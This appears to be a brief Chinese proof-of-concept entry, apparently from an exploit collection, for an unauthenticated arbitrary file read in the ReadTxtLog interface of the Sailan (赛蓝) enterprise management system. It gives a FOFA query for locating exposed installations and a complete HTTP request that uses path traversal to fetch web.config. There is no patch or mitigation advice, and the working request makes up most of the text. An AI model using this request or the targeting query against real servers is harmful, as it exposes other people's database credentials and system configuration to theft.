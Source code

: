 # 赛蓝企业管理系统ReadTxtLog存在任意文件读取漏洞

赛蓝企业管理系统 ReadTxtLog 接口处存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

## fofa

```java
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```java
GET /BaseModule/SysLog/ReadTxtLog?FileName=../web.config HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: __RequestVerificationToken=EXiOGTuudShJEzYLR8AQgWCZbF2NB6_KXKrmqJJyp1cgyV6_LYy9yKQhNkHJGXXlbO_6NLQZPwUUdVZKH6e9KMuXyxV6Tg-w5Ftx-mKih3U1; ASP.NET_SessionId=2ofwed0gd2jc4paj0an0hpcl
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
```

